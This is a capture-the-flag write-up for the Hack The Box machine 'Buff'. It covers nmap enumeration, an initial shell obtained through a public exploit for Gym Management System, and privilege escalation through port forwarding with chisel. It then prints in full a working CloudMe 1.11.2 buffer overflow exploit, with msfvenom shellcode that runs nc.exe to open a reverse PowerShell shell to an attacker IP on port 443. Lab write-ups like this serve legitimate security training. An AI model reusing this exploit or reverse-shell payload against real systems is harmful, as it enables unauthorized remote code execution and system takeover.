# Buff (`10.10.10.198`)

## Summary

RCE exploit on `Gym Management System 1.0` for an inital shell, and a Buffer Overflow on `CloudMe 1.11.2` for root. 

## `/etc/hosts`

I begin by adding an entry in `/etc/hosts` to resolve `buff.htb` to `10.10.10.198`. I use this later in my report.

## Enumeration

I start a portscan of all ports (`-p-`), running OS, service version, and vulnerability scripts (`-A`), skipping host discovery (`-Pn`), with verbose logging (`-v`) and output to a file (`-oN`).

```bash
$ nmap -A -v -p- -Pn -oN allports buff.htb
# Nmap 7.80 scan initiated Wed Dec  9 05:35:49 2020 as: nmap -A -v -p- -Pn -oN allports buff.htb
Nmap scan report for buff.htb (10.10.10.198)
Host is up (0.12s latency).
Not shown: 65533 filtered ports
PORT     STATE SERVICE    VERSION
7680/tcp open  pando-pub?
8080/tcp open  http       Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
|_http-title: mrb3n's Bro Hut
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=258 (Good luck!)
IP ID Sequence Generation: Randomized

TRACEROUTE (using port 8080/tcp)
HOP RTT       ADDRESS
1   41.32 ms  10.10.14.1
2   105.12 ms buff.htb (10.10.10.198)

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Dec  9 05:44:25 2020 -- 1 IP address (1 host up) scanned in 516.32 seconds

```

I open the webpage in Firefox and see this homepage. I find a version string for the software deployed and see there are public exploits available.


## Reverse Shell





And we have a shell.

## Privilege Escalation



I copy `nc.exe` over to get a fully-capable shell, and then work from there.








I see `CloudMe_1112.exe` in `Downloads`, and I see it's running with `tasklist`. I runs on port `8888` by default.





I port forward `8888` on the target to `localhost:8888` with `chisel`, after copying `chisel` over the same way I copied `nc.exe` over.





I modify a `CloudMe 1.11.2` Buffer Overflow exploit and run it to get root.

```python
# Exploit Title: CloudMe 1.11.2 - Buffer Overflow (PoC)
# Date: 2020-04-27
# Exploit Author: Andy Bowden
# Vendor Homepage: https://www.cloudme.com/en
# Software Link: https://www.cloudme.com/downloads/CloudMe_1112.exe
# Version: CloudMe 1.11.2
# Tested on: Windows 10 x86

#Instructions:
# Start the CloudMe service and run the script.

import socket

target = "127.0.0.1"

padding1   = b"\x90" * 1052
EIP        = b"\xB5\x42\xA8\x68" # 0x68A842B5 -> PUSH ESP, RET
NOPS       = b"\x90" * 30

# msfvenom -a x86 -p windows/exec CMD="C:\xampp\htdocs\gym\upload\nc.exe 10.10.14.27 443 -e powershell.exe" -b '\x00\x0A\x0D' -f python -v payload
payload =  b""
payload += b"\xdb\xcc\xbe\xe4\xe1\x89\x94\xd9\x74\x24\xf4\x58"
payload += b"\x29\xc9\xb1\x40\x83\xc0\x04\x31\x70\x13\x03\x94"
payload += b"\xf2\x6b\x61\xa8\x1d\xe9\x8a\x50\xde\x8e\x03\xb5"
payload += b"\xef\x8e\x70\xbe\x40\x3f\xf2\x92\x6c\xb4\x56\x06"
payload += b"\xe6\xb8\x7e\x29\x4f\x76\x59\x04\x50\x2b\x99\x07"
payload += b"\xd2\x36\xce\xe7\xeb\xf8\x03\xe6\x2c\xe4\xee\xba"
payload += b"\xe5\x62\x5c\x2a\x81\x3f\x5d\xc1\xd9\xae\xe5\x36"
payload += b"\xa9\xd1\xc4\xe9\xa1\x8b\xc6\x08\x65\xa0\x4e\x12"
payload += b"\x6a\x8d\x19\xa9\x58\x79\x98\x7b\x91\x82\x37\x42"
payload += b"\x1d\x71\x49\x83\x9a\x6a\x3c\xfd\xd8\x17\x47\x3a"
payload += b"\xa2\xc3\xc2\xd8\x04\x87\x75\x04\xb4\x44\xe3\xcf"
payload += b"\xba\x21\x67\x97\xde\xb4\xa4\xac\xdb\x3d\x4b\x62"
payload += b"\x6a\x05\x68\xa6\x36\xdd\x11\xff\x92\xb0\x2e\x1f"
payload += b"\x7d\x6c\x8b\x54\x90\x79\xa6\x37\xff\x7c\x34\x42"
payload += b"\x4d\x7e\x46\x4c\xe2\x17\x77\xc7\x6d\x6f\x88\x02"
payload += b"\xca\x9f\xc2\x0e\x7b\x08\x8b\xdb\x39\x55\x2c\x36"
payload += b"\x7d\x60\xaf\xb2\xfe\x97\xaf\xb7\xfb\xdc\x77\x24"
payload += b"\x76\x4c\x12\x4a\x25\x6d\x37\x09\xf3\xcd\xc0\xec"
payload += b"\x6e\x9e\x40\xb2\x18\x2a\xc5\x25\xba\xa1\x59\xde"
payload += b"\x45\x2b\x3e\x55\xc6\xdf\xd1\xf4\x42\x7c\x40\x95"
payload += b"\xa4\x19\xe4\x3c\x99\xd0\x24\x90\xe8\x22\x6b\xdd"
payload += b"\x3e\x6d\x41\x2a\x1f\x45\x91\x67\x7f\x88\xbc\xa7"
payload += b"\x0f\xbd\x49\xc2\x9d\x32\xde\x69\x0e\xd9\x30\x14"
payload += b"\xb6\x44\x4d"

overrun    = b"C" * (1500 - len(padding1 + NOPS + EIP + payload))

buf = padding1 + EIP + NOPS + payload + overrun

try:
	s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((target,8888))
	s.send(buf)
except Exception as e:
	print(sys.exc_value)

```

## Root

